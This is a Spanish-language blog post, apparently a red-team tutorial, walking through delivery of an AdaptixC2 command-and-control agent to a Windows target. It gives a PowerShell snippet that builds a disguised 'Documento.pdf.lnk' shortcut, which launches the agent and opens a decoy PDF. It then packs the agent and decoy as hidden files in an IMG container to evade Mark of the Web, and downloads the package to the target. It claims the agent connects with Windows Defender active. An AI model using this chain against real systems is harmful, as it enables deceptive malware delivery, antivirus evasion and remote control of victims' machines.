

# Ejecucion Agente AdaptixC2

## Introducción

En este post voy a describir una manera de como un atacante o miembros de un Red Team pueden elaborar un fichero malicioso y ser ejecutado en la maquina objetivo con el fin de obtener acceso sin ser detectado por el antivirus.

Para este post he utilizado el Command and Control AdaptixC2, no voy a entrar en profundidad en como se instala ya que en la propia documentación viene bien detallado el proceso. Aunque si encontráis algún inconveniente a la hora de instalar la versión de GO os recomiendo que descarguéis directamente el paquete de la web oficial [aqui](https://go.dev/dl/). 

Os dejo el repositorio de AdaptixC2  [aqui](https://github.com/Adaptix-Framework/AdaptixC2) y su documentacion [aqui](https://adaptix-framework.gitbook.io/adaptix-framework).

## Creación de listener y Agente

Una vez hemos ejecutado el servidor y el cliente, nos aparecerá la interfaz del cliente, lo primero que debemos hacer es crear un listener al que se conectara nuestro agente generado posteriormente.

Para este Post voy a utilizar un listener de tipo HTTP, para ello debemos hacer clic en la esquina superior izquierda en el icono de los cascos.



Una vez abierta la pestaña de los listeners hacemos clic derecho > Create y nos aparecerá la siguiente ventana:


Desde aquí podemos configurar nuestro listener, para esta prueba solo he realizado cambios en la pestaña Main settings, pero también se pueden configurar las cabeceras HTTP, una pagina de error y la pagina del Payload.

Indicamos un nombre y añadimos la ip de la maquina donde se ejecuta el servidor y un puerto, al final debería quedar algo así:


Para finalizar este paso solo nos queda generar el agente, para ello hacemos clic derecho en el listener recién creado.


Nos aparecerá la siguiente ventana:


Para esta prueba no he realizado cambios, pero como se puede observar podemos modificar la arquitectura, el tipo de formato, el campo Sleep, cuando queremos que termine la conexión remota y el tiempo activo del agente.

Hacemos clic en Generate y guardamos nuestro agente.

## Shell Link

Para la ejecución de nuestro agente voy a utilizar un fichero .lnk generado con PowerShell el cual va ejecutar nuestro agente y un pdf que queramos mostrarle al usuario objetivo como señuelo.

Esta opción es interesante ya que aunque el usuario tenga activado la opción de ver la extensión en el explorador, la extensión .lnk no va a ser visible.

```bash
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\Documento.pdf.lnk")

$lnk.TargetPath = "%COMSPEC%"

$lnk.Arguments = "/C start agent.64.exe && start Documento.pdf"

$lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13"
$lnk.Save()
```

Si el icono de pdf no se muestra se puede cambiar haciendo clic en propiedades y cambiar icono.


## Container

Una vez tenemos los tres ficheros: Documento.pdf(señuelo), Agent.64.exe(payload) y Documento.pdf.lnk(trigger) pasamos a empaquetarlos en un único comprimido así evitamos el tener que enviar múltiples ficheros al objetivo.

Mark of the web(MotW) es un identificador de zona que se utiliza para marcar los archivos descargados de Internet como potencialmente inseguros.  Esto se puede ver en un archivo consultando sus propiedades en el Explorador o utilizando PowerShell.


Algunos  formatos de comprimidos admiten archivos ocultos, y otros no propagan MotW.  [Este repositorio](https://github.com/nmantani/archiver-MOTW-support-comparison) de [Nobutaka Mantani](https://x.com/nmantani) contiene una comparación de las propagaciones de MotW.

Para empaquetar nuestros ficheros voy a utilizar la herramienta [PackMyPayload](https://github.com/mgeeky/PackMyPayload).

Añado los ficheros a una carpeta.

```bash
ls -l 
total 100
-rw-r--r-- 1 n1kto  n1kto  80384 Jun  5 16:22 agent.x64.exe
-rw-rw-r-- 1 n1kto n1kto 13264 Jun  5  2025 Documento.pdf
-rw-rw-r-- 1 n1kto n1kto  1859 Jun  5  2025 Documento.pdf.lnk
```

Y los empaqueto en un fichero con formato IMG ocultando agent.64.exe y Documento.pdf utilizando el parámetro `-H` .

```bash
python3 PackMyPayload.py -H agent.64.exe,Documento.pdf ~/Desktop/container ~/Desktop/container/package.img
```

## Envió y ejecución

Por ultimo transferimos nuestro fichero generado a la maquina objetivo levantando un servidor con python:

```bash
python -m http.server 8000
```

y en la maquina objetivo desde PowerShell lo descargamos:

```bash
 iwr -Uri http://192.168.154.128:8000/package.img -Outfile package.img
```

Abrimos package.img y abrimos el fichero que contiene produciendo así la conexión del agente con nuestro Command and control y todo ello con Windows Defender activado.


Recuerdo que este post es con fines educativos y éticos y no se debe emplear para fines ilegales.


